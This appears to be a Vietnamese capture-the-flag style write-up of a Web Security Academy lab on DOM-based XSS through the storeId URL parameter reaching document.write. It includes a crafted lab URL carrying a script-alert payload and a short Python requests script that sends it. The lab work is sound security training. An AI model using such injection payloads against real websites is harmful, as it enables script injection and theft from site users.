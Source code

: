 ```javascript
```

- Chức năng của đoạn code này sẽ như sau:
  - Đầu tiên nó tạo một mảng stores gồm 3 phần tử `“London”,“Paris”,“Milan”`, sau đó tạo biến store để lấy storeId(tên của store) ở trên URL
  - Sau đó tạo một thẻ `<select>` với giá trị là storeId, rồi nếu store đó có giá trị thì thực thi câu lệnh tiếp theo sẽ tạo ra một thẻ `<option>` với thuộc tính selected để thông báo rằng option đã được chọn, và nội dung là giá trị của biến store.
  - Tiếp đến vòng for dưới để hiện ra các thẻ `<option>` khác trong mảng stores, nếu phần tử nhập vào giống với 1 trong các phần tử của mảng thì sẽ bỏ qua và di chuyển sang phần tử tiếp theo.
  - Cuối cùng thì tạo ra thẻ `<select>` để chọn. Sau khi thực hiện đoạn mã này, trang web sẽ hiển thị 1 danh sách thả xuống để cho ta lựa chọn, nếu URL được truyền vào tham số storeId thì các tùy chọn trên sẽ được thực hiện

`var store = (new URLSearchParams(window.location.search)).get('storeId')`
cho chúng ta thấy giá trị của biến store là giá trị của tham số storeId mà giá trị này chúng ta có thể kiểm soát được sau đó kiểm tra đều kiện và render ra `document.write('<option selected>'+store+'</option>');`

### Khai thác

vì `var store = (new URLSearchParams(window.location.search)).get('storeId')` lấy storeId lấy từ phương thức GET nên mình sẽ request đến `https://0a00003c03f9fd93802a1258004c0045.web-security-academy.net/product?productId=1&storeId=%27%3Cscript%3Ealert(%27XSS%27)%3C/script%3E`
để chuyền vào storeId payload `<script>alert('XSS')</script>`
![image](https://hackmd.io/_uploads/HJOJrmw9a.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a00003c03f9fd93802a1258004c0045.web-security-academy.net'

session = requests.Session()

payload = "<script>alert('XSS')</script>"

response = session.get(
    url + '/product?productId=1&storeId=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này
